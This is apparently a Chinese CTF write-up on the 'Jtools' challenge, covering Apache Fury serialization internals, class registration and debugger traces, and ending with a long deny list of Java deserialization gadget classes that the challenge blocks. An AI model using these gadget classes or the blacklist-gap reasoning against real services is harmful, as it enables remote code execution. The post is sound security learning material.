






+++
title= "AliCTF2025-Jtools"
slug= "alictf-2025-jtools"
description= ""
date= "2025-10-22T20:39:41+08:00"
lastmod= "2025-10-22T20:39:41+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

在做题之前，先浅浅学习下 fury 的序列化与反序列化机制。

## 了解

### 序列化

先写一个类用

```java
package org.Fury.Base;

import java.io.Serializable;

public class User implements Serializable {
    private String username;
    private boolean isAdmin;

    public User(String username, boolean isAdmin) {
        this.username = username;
        this.isAdmin = isAdmin;
    }

    public User() {}

    public String getUsername() {
        return username;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public boolean isAdmin() {
        return isAdmin;
    }

    public void setAdmin(boolean admin) {
        isAdmin = admin;
    }

    @Override
    public String toString() {
        return "User : {" +
                "username='" + username + '\'' +
                ", isAdmin=" + isAdmin +
                '}';
    }

}
```

序列化类

```java
package org.Fury.Base;

import org.apache.fury.Fury;
import org.apache.fury.config.Language;

public class Serial {
    public static void main(String[] args) {
//        Fory fory = Fory.builder().withLanguage(Language.JAVA)
//                .requireClassRegistration(true)
//                .build();
//        开启注册
        Fury fury = Fury.builder().withLanguage(Language.JAVA).build();
        User user = new User("baozongwi",true);
        fury.register(User.class);
        byte[] bytes = fury.serialize(user);
        System.out.println(fury.deserialize(bytes));
    }

}
```

官方文档中有个表格来说明 ForyBuilder 配置选项，

| 选项名                              | 说明                                                         | 默认值                                                       |
| ----------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `timeRefIgnored`                    | 是否忽略所有在 `TimeSerializers` 注册的时间类型及其子类的引用跟踪（当引用跟踪开启时）。如需对时间类型启用引用跟踪，可通过 `Fory#registerSerializer(Class, Serializer)` 注册。例如：`fory.registerSerializer(Date.class, new DateSerializer(fory, true))`。注意，启用引用跟踪需在包含时间字段的类型代码生成前完成，否则这些字段仍会跳过引用跟踪。 | `true`                                                       |
| `compressInt`                       | 是否启用 int 压缩以减小序列化体积。                          | `true`                                                       |
| `compressLong`                      | 是否启用 long 压缩以减小序列化体积。                         | `true`                                                       |
| `compressString`                    | 是否启用字符串压缩以减小序列化体积。                         | `false`                                                      |
| `classLoader`                       | 类加载器不建议动态变更，Fory 会缓存类元数据。如需变更类加载器，请使用 `LoaderBinding` 或 `ThreadSafeFory`。 | `Thread.currentThread().getContextClassLoader()`             |
| `compatibleMode`                    | 类型前向/后向兼容性配置。与 `checkClassVersion` 配置相关。`SCHEMA_CONSISTENT`：序列化端与反序列化端类结构需一致。`COMPATIBLE`：序列化端与反序列化端类结构可不同，可独立增删字段。[详见](https://fory.apache.org/zh-CN/docs/guide/java_object_graph_guide/#类结构不一致与版本校验)。 | `CompatibleMode.SCHEMA_CONSISTENT`                           |
| `checkClassVersion`                 | 是否校验类结构一致性。启用后，Fory 会写入并校验 `classVersionHash`。若启用 `CompatibleMode#COMPATIBLE`，此项会自动关闭。除非能确保类不会演化，否则不建议关闭。 | `false`                                                      |
| `checkJdkClassSerializable`         | 是否校验 `java.*` 下的类实现了 `Serializable` 接口。若未实现，Fory 会抛出 `UnsupportedOperationException`。 | `true`                                                       |
| `registerGuavaTypes`                | 是否预注册 Guava 类型（如 `RegularImmutableMap`/`RegularImmutableList`）。这些类型虽非公开 API，但较为稳定。 | `true`                                                       |
| `requireClassRegistration`          | 关闭后可反序列化未知类型，灵活性更高，但存在安全风险。       | `true`                                                       |
| `suppressClassRegistrationWarnings` | 是否屏蔽类注册警告。警告可用于安全审计，但可能影响体验，默认开启屏蔽。 | `true`                                                       |
| `metaShareEnabled`                  | 是否启用元数据共享模式。                                     | `true`（若设置了 `CompatibleMode.Compatible`，否则为 false） |
| `scopedMetaShareEnabled`            | 是否启用单次序列化范围内的元数据独享。该元数据仅在本次序列化中有效，不与其他序列化共享。 | `true`（若设置了 `CompatibleMode.Compatible`，否则为 false） |
| `metaCompressor`                    | 设置元数据压缩器。默认使用基于 `Deflater` 的 `DeflaterMetaCompressor`，可自定义如 `zstd` 等更高压缩比的压缩器。需保证线程安全。 | `DeflaterMetaCompressor`                                     |
| `deserializeNonexistentClass`       | 是否允许反序列化/跳过不存在的类的数据。                      | `true`（若设置了 `CompatibleMode.Compatible`，否则为 false） |
| `codeGenEnabled`                    | 是否启用代码生成。关闭后首次序列化更快，但后续序列化性能较低。 | `true`                                                       |
| `asyncCompilationEnabled`           | 是否启用异步编译。启用后，序列化先用解释模式，JIT 完成后切换为 JIT 模式。 | `false`                                                      |
| `scalaOptimizationEnabled`          | 是否启用 Scala 特定优化。                                    | `false`                                                      |
| `copyRef`                           | 关闭后，深拷贝性能更好，但会忽略循环和共享引用。对象图中的同一引用会被拷贝为不同对象。 | `true`                                                       |
| `serializeEnumByName`               | 启用后，枚举按名称序列化，否则按 ordinal。                   | `false`                                                      |

参考之后我们知道一件事， fury 序列化对象时需要选择，所以序列化的类需要 register 注册，或者设置 requireClassRegistration 为 false，否则序列化的时候会抛出错误。

同时发现设置 requireClassRegistration 为 true 或 false，数据会有所不同

```java
package org.Fury.Base;

import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.util.Base64;

public class Serial {
    public static void main(String[] args) {
        // Fury 实例 1：需要类注册
        Fury furyWithRegistration = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(true)
                .build();

        User userWithReg = new User("baozongwi", true);
        furyWithRegistration.register(User.class);
        byte[] bytesWithReg = furyWithRegistration.serialize(userWithReg);
        String base64WithReg = Base64.getEncoder().encodeToString(bytesWithReg);

        System.out.println(base64WithReg);
        System.out.println(furyWithRegistration.deserialize(bytesWithReg).toString());

        // Fury 实例 2：不需要类注册
        Fury furyWithoutRegistration = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();

        User userWithoutReg = new User("baozongwi", true);
        byte[] bytesWithoutReg = furyWithoutRegistration.serialize(userWithoutReg);
        String base64WithoutReg = Base64.getEncoder().encodeToString(bytesWithoutReg);
        System.out.println(base64WithoutReg);
        System.out.println(furyWithoutRegistration.deserialize(bytesWithoutReg).toString());
    }
}
```

数据对比如下

```java
Av/EAgEAJGJhb3pvbmd3aQ==
Av8pBDom10tI410IJEAGA1JEiAEAJGJhb3pvbmd3aQ==
```

### 反序列化

虽然小包什么都不懂，但是肯定是不需要类注册会方便进行恶意反序列化一点。

`ForyBuilder#requireClassRegistration` 可关闭类注册校验，允许反序列化未知类型，灵活但有安全风险。

**如无法确保环境安全，切勿关闭类注册。**
反序列化未知/不受信任类型时，恶意代码可能在 `init/equals/hashCode` 等方法中被执行。

类注册不仅提升安全性，还可减少类名序列化开销。注册顺序需保持序列化端与反序列化端一致。

那分别调试看看

```java
package org.Fury.Base;

import org.apache.fury.Fury;
import org.apache.fury.config.Language;

public class Serial {
    public static void main(String[] args) {
        // Fury 实例 1：需要类注册
        Fury furyWithRegistration = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(true)
                .build();

        User userWithReg = new User("baozongwi", true);
        furyWithRegistration.register(User.class);
        byte[] bytesWithReg = furyWithRegistration.serialize(userWithReg);
        furyWithRegistration.deserialize(bytesWithReg);
    }
}
```

到了这个位置

```java
at org.apache.fury.resolver.ClassResolver.readClassInfo(ClassResolver.java:1681)
at org.apache.fury.Fury.readRef(Fury.java:865)
at org.apache.fury.Fury.deserialize(Fury.java:797)
at org.apache.fury.Fury.deserialize(Fury.java:718)
at org.Fury.Base.Serial.main(Serial.java:17)
```

看到 readClassInfo 这个函数

```java
public ClassInfo readClassInfo(MemoryBuffer buffer) {
    if (this.metaContextShareEnabled) {
        return this.readClassInfoWithMetaShare(buffer, this.fury.getSerializationContext().getMetaContext());
    } else {
        int header = buffer.readVarUint32Small14();
        ClassInfo classInfo;
        if ((header & 1) != 0) {
            classInfo = this.readClassInfoFromBytes(buffer, this.classInfoCache, header);
            this.classInfoCache = classInfo;
        } else {
            classInfo = this.getOrUpdateClassInfo((short)(header >> 1));
        }

        this.currentReadClass = classInfo.cls;
        return classInfo;
    }
}
```

跟进 getOrUpdateClassInfo，检测是否有序列号接口，没有就给他添加



整个反序列化流程如下，没有触发到 setter 和 getter 的地方，接下来，调试一下不需要类注册的

```java
package org.Fury.Base;

import org.apache.fury.Fury;
import org.apache.fury.config.Language;

public class Serial {
    public static void main(String[] args) {
        // Fury 实例 2：不需要类注册
        Fury furyWithoutRegistration = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();

        User userWithoutReg = new User("baozongwi", true);
        byte[] bytesWithoutReg = furyWithoutRegistration.serialize(userWithoutReg);
        furyWithoutRegistration.deserialize(bytesWithoutReg);
    }
}
```

发现和刚才不同，可以到 readClassInfoFromBytes 方法

```java
private ClassInfo readClassInfoFromBytes(MemoryBuffer buffer, ClassInfo classInfoCache, int header) {
    MetaStringBytes simpleClassNameBytesCache = classInfoCache.classNameBytes;
    MetaStringBytes packageBytes;
    MetaStringBytes simpleClassNameBytes;
    if (simpleClassNameBytesCache != null) {
        MetaStringBytes packageNameBytesCache = classInfoCache.packageNameBytes;
        packageBytes = this.metaStringResolver.readMetaStringBytesWithFlag(buffer, packageNameBytesCache, header);

        assert packageNameBytesCache != null;

        simpleClassNameBytes = this.metaStringResolver.readMetaStringBytes(buffer, simpleClassNameBytesCache);
        if (simpleClassNameBytesCache.hashCode == simpleClassNameBytes.hashCode && packageNameBytesCache.hashCode == packageBytes.hashCode) {
            return classInfoCache;
        }
    } else {
        packageBytes = this.metaStringResolver.readMetaStringBytesWithFlag(buffer, header);
        simpleClassNameBytes = this.metaStringResolver.readMetaStringBytes(buffer);
    }

    ClassInfo classInfo = this.loadBytesToClassInfo(packageBytes, simpleClassNameBytes);
    return classInfo.serializer == null ? this.getClassInfo(classInfo.cls) : classInfo;
}
```

从字节流中还原出来对象，也没发现什么，出来之后跟进 readDataInternal 方法，





能直接到无参构造方法

```java
at org.Fury.Base.User.<init>(User.java:14)
at org.Fury.Base.UserFuryCodec_0.read(UserFuryCodec_0.java:57)
at org.apache.fury.Fury.readDataInternal(Fury.java:972)
at org.apache.fury.Fury.readRef(Fury.java:865)
at org.apache.fury.Fury.deserialize(Fury.java:797)
at org.apache.fury.Fury.deserialize(Fury.java:718)
at org.Fury.Base.Serial.main(Serial.java:16)
```

但是还是没有什么东西，看题

## JTools



拿 flag 可以直接写入文件，不用打内存马，触发了 toString 方法，并且这题和2024年华北分区赛很像，他的黑名单少了。看到这题，对比官方黑名单多了 com.feilong.lib，

```plain
bsh.Interpreter
bsh.XThis
ch.qos.logback.core.db.DriverManagerConnectionSource
ch.qos.logback.core.db.JNDIConnectionSource
clojure.core
clojure.main
com.caucho.config.types.ResourceRef
com.caucho.hessian.test.TestCons
com.caucho.naming.QName
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.Base64Data
com.ibm.xltxe.rnm1.xtq.bcel.util.ClassLoader
com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlDataSource
com.mysql.cj.jdbc.MysqlXADataSource
com.mysql.jdbc.jdbc2.optional.MysqlDataSource
com.mysql.jdbc.util.ServerController
com.rometools.rome.feed.impl.EqualsBean
com.rometools.rome.feed.impl.ToStringBean
com.sun.corba.se.impl.activation.ServerManagerImpl
com.sun.corba.se.impl.activation.ServerTableEntry
com.sun.corba.se.impl.presentation.rmi.InvocationHandlerFactoryImpl.CustomCompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.LinkedInvocationHandler
com.sun.jndi.ldap.LdapAttribute
com.sun.jndi.rmi.registry.BindingEnumeration
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl
com.sun.org.apache.bcel.internal.util.ClassLoader
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
com.sun.org.apache.xpath.internal.objects.XString
com.sun.org.apache.xpath.internal.XPathContext
com.sun.rowset.JdbcRowSetImpl
com.sun.syndication.feed.impl.EqualsBean
com.sun.syndication.feed.impl.ObjectBean
com.sun.syndication.feed.impl.ToStringBean
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data
com.zaxxer.hikari.HikariConfig
com.zaxxer.hikari.HikariDataSource
groovy.lang.PropertyValue
groovy.util.MapEntry
java.beans.EventHandler
java.beans.Expression
java.lang.invoke.InvokeDynamic
java.lang.invoke.MethodHandles.Lookup
java.lang.MethodHandle
java.lang.Process
java.lang.ProcessBuilder
java.lang.reflect.Constructor
java.lang.reflect.Field
java.lang.reflect.Method
java.lang.Runtime
java.lang.Shutdown
java.lang.System
java.lang.Thread
java.lang.ThreadGroup
java.lang.ThreadLocal
java.lang.UNIXProcess
java.lang.VarHandler
java.net.Socket
java.rmi.registry.Registry
java.rmi.server.ObjID
java.rmi.server.RemoteObjectInvocationHandler
java.rmi.server.UnicastRemoteObject
java.security.SignedObject
java.util.ServiceLoader
javassist.bytecode.annotation.Annotation
javassist.bytecode.annotation.AnnotationImpl
javassist.bytecode.annotation.AnnotationMemberValue
javassist.tools.web.Viewer
javassist.util.proxy.SerializedProxy
javax.activation.MimeTypeParameterList
javax.imageio.ImageIO
javax.imageio.spi.ServiceRegistry
javax.management.BadAttributeValueExpException
javax.management.ImmutableDescriptor
javax.management.MBeanServerInvocationHandler
javax.management.openmbean.CompositeDataInvocationHandler
javax.media.jai.remote.SerializableRenderedImage
javax.naming.InitialContext
javax.naming.ldap.Rdn
javax.naming.spi.ContinuationContext.getEnvironment
javax.naming.spi.ContinuationContext.getTargetContext
javax.naming.spi.ObjectFactory
javax.script.ScriptEngineManager
javax.sound.sampled.AudioFileFormat
javax.sound.sampled.AudioFormat
javax.swing.UIDefaults
javax.xml.transform.Templates
net.bytebuddy.dynamic.loading.ByteArrayClassLoader
oracle.jdbc.connector.OracleManagedConnectionFactory
oracle.jdbc.pool.OracleDataSource
org.apache.activemq.ActiveMQConnectionFactory
org.apache.activemq.ActiveMQXAConnectionFactory
org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory
org.apache.bcel.util.ClassLoader
org.apache.carbondata.core.scan.expression.ExpressionResult
org.apache.commons.beanutils.BeanComparator
org.apache.commons.beanutils.BeanToPropertyValueTransformer
org.apache.commons.codec.binary.Base64
org.apache.commons.collections.functors.ChainedTransformer
org.apache.commons.collections.functors.ConstantTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.Transformer
org.apache.commons.collections4.comparators.TransformingComparator
org.apache.commons.collections4.functors.ChainedTransformer
org.apache.commons.collections4.functors.ConstantTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.configuration.JNDIConfiguration
org.apache.commons.configuration2.JNDIConfiguration
org.apache.commons.dbcp.datasources.PerUserPoolDataSource
org.apache.commons.dbcp.datasources.SharedPoolDataSource
org.apache.commons.dbcp2.datasources.PerUserPoolDataSource
org.apache.commons.dbcp2.datasources.SharedPoolDataSource
org.apache.commons.fileupload.disk.DiskFileItem
org.apache.ibatis.executor.loader.AbstractSerialStateHolder
org.apache.ibatis.executor.loader.cglib.CglibProxyFactory
org.apache.ibatis.executor.loader.CglibSerialStateHolder
org.apache.ibatis.executor.loader.javassist.JavassistSerialStateHolder
org.apache.ibatis.executor.loader.JavassistSerialStateHolder
org.apache.ibatis.javassist.bytecode.annotation.Annotation
org.apache.ibatis.javassist.bytecode.annotation.AnnotationImpl
org.apache.ibatis.javassist.bytecode.annotation.AnnotationMemberValue
org.apache.ibatis.javassist.tools.web.Viewer
org.apache.ibatis.javassist.util.proxy.SerializedProxy
org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup
org.apache.log.output.db.DefaultDataSource
org.apache.log4j.receivers.db.DriverManagerConnectionSource
org.apache.myfaces.context.servlet.FacesContextImpl
org.apache.myfaces.context.servlet.FacesContextImplBase
org.apache.myfaces.el.CompositeELResolver
org.apache.myfaces.el.unified.FacesELContext
org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression
org.apache.openjpa.ee.JNDIManagedRuntime
org.apache.openjpa.ee.RegistryManagedRuntime
org.apache.shiro.jndi.JndiObjectFactory
org.apache.shiro.realm.jndi.JndiRealmFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSource
org.apache.tomcat.dbcp.dbcp.datasources.PerUserPoolDataSource
org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource
org.apache.velocity.runtime.resource.ContentResource
org.apache.velocity.runtime.resource.loader.DataSourceResourceLoader
org.apache.velocity.runtime.resource.Resource
org.apache.velocity.Template
org.apache.wicket.util.upload.DiskFileItem
org.apache.xalan.xsltc.trax.TemplatesImpl
org.apache.xbean.naming.context.ContextUtil
org.apache.xpath.XPathContext
org.apache.zookeeper.Shell
org.aspectj.apache.bcel.util.ClassLoader
org.bouncycastle.asn1.ASN1Object
org.bouncycastle.asn1.x509.X509Extensions
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.GStringImpl
org.codehaus.groovy.runtime.MethodClosure
org.datanucleus.store.rdbms.datasource.dbcp.datasources.PerUserPoolDataSource;
org.datanucleus.store.rdbms.datasource.dbcp.datasources.SharedPoolDataSource;
org.eclipse.jetty.util.log.LoggerLog
org.geotools.filter.ConstantExpression
org.h2.value.ValueJavaObject
org.h2.message.Trace
org.h2.message.TraceObject
org.h2.message.TraceSystem
org.h2.message.TraceWriterAdapter
org.h2.jdbcx.JdbcDataSource
org.hibernate.engine.spi.TypedValue
org.hibernate.tuple.component.AbstractComponentTuplizer
org.hibernate.tuple.component.PojoComponentTuplizer
org.hibernate.type.AbstractType
org.hibernate.type.ComponentType
org.hibernate.type.Type
org.jboss.ejb3.proxy.handle.HomeHandleImpl
org.jboss.ejb3.stateful.StatefulHandleImpl
org.jboss.ejb3.stateless.StatelessHandleImpl
org.jboss.interceptor.builder.InterceptionModelBuilder
org.jboss.interceptor.builder.MethodReference
org.jboss.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.interceptor.proxy.InterceptorMethodHandler
org.jboss.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.interceptor.reader.DefaultMethodMetadata
org.jboss.interceptor.reader.ReflectiveClassMetadata
org.jboss.interceptor.reader.SimpleInterceptorMetadata
org.jboss.interceptor.spi.instance.InterceptorInstantiator
org.jboss.interceptor.spi.metadata.InterceptorReference
org.jboss.interceptor.spi.metadata.MethodMetadata
org.jboss.interceptor.spi.model.InterceptionModel
org.jboss.interceptor.spi.model.InterceptionType
org.jboss.proxy.ejb.handle.EntityHandleImpl
org.jboss.proxy.ejb.handle.HomeHandleImpl
org.jboss.proxy.ejb.handle.StatefulHandleImpl
org.jboss.proxy.ejb.handle.StatelessHandleImpl
org.jboss.resteasy.plugins.server.resourcefactory.JndiResourceFactory
org.jboss.weld.interceptor.builder.InterceptionModelBuilder
org.jboss.weld.interceptor.builder.MethodReference
org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.weld.interceptor.proxy.InterceptorMethodHandler
org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.weld.interceptor.reader.DefaultMethodMetadata
org.jboss.weld.interceptor.reader.ReflectiveClassMetadata
org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata
org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator
org.jboss.weld.interceptor.spi.metadata.InterceptorReference
org.jboss.weld.interceptor.spi.metadata.MethodMetadata
org.jboss.weld.interceptor.spi.model.InterceptionModel
org.jboss.weld.interceptor.spi.model.InterceptionType
org.mockito.internal.creation.cglib.AcrossJVMSerializationFeature
org.mortbay.log.Slf4jLog
org.mozilla.javascript.Context
org.mozilla.javascript.IdScriptableObject
org.mozilla.javascript.MemberBox
org.mozilla.javascript.NativeError
org.mozilla.javascript.NativeJavaMethod
org.mozilla.javascript.NativeJavaObject
org.mozilla.javascript.NativeObject
org.mozilla.javascript.ScriptableObject
org.python.core.PyBytecode
org.python.core.PyFunction
org.python.core.PyObject
org.quartz.utils.JNDIConnectionProvider
org.reflections.Reflections
org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator
org.springframework.aop.framework.AdvisedSupport
org.springframework.aop.framework.JdkDynamicAopProxy
org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
org.springframework.aop.target.SingletonTargetSource
org.springframework.beans.BeanWrapperImpl
org.springframework.beans.factory.BeanFactory
org.springframework.beans.factory.config.MethodInvokingFactoryBean
org.springframework.beans.factory.config.PropertyPathFactoryBean
org.springframework.beans.factory.ObjectFactory
org.springframework.beans.factory.support.DefaultListableBeanFactory
org.springframework.core.SerializableTypeWrapper
org.springframework.expression.spel.ast.Indexer
org.springframework.expression.spel.ast.MethodReference
org.springframework.jndi.JndiObjectTargetSource
org.springframework.jndi.support.SimpleJndiBeanFactory
org.springframework.orm.jpa.AbstractEntityManagerFactoryBean
org.springframework.transaction.jta.JtaTransactionManager
org.thymeleaf.standard.expression.Expression
org.thymeleaf.standard.expression.StandardExpressionParser
